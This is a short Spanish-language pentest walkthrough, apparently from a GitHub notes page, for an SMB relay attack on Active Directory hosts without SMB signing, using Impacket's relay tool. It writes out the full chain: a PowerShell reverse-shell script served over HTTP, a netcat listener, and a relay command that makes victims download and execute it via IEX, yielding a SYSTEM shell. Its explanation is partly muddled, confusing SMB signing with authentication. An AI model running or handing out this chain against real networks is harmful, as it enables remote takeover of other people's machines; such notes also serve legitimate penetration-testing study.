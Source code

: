 Cuando encontramos equipos que hacen uso de SMB y sobre todo de conexiones a servicios SMB no firmados, es decir, que no piden autenticación por parte del servidor que entrega el recurso. 
Podemos realizar un ataque con NTML-Relay de Impacket. Con esta herramienta le indicaremos que ofrezca a los equipos de un entorno de Active Directory que intentan acceder a algún recurso que no existe, una dirección alternativa dentro del rango de red. 

En este ataque, al fichero que serán redirigidos estos equipos será un fichero Invoke-PowershellTCP.ps1 modificado para que una vez cargado en el sistema cree una reverse shell a nuestro equipo.

Debemos tener un fichero targets.txt donde estarán las direcciones de los equipos de la red.

Ataque:
>Copiamos y modificamos el fichero Invoke-PowershellTCP.ps1, para añadir una última línea
>`Invoke-PowershellTCP -Reverse -IPAddress <own_ip> -Port 443`
>Nos compartimos un servidor con python donde se ofrezca este fichero Invoke-PowershellTCP.ps1
>`python -m SimpleHTTPServer 80`
>Abrimos una sesión con netcat en espera de la reverse shell
>`rlwrap nc -nlvp 443`
>Ejecutamos el NTML-Relay
>`impacket-ntmlrelay -tf targets.txt -smb2support -c "powershell IEX(New-Object Net.WebClient).downloadString('http://<own_ip>/Invoke-PowershellTCP.ps1')"`

En la sesión con netcat, recibiremos la reverse shell como el usuario administrador nt-authority system.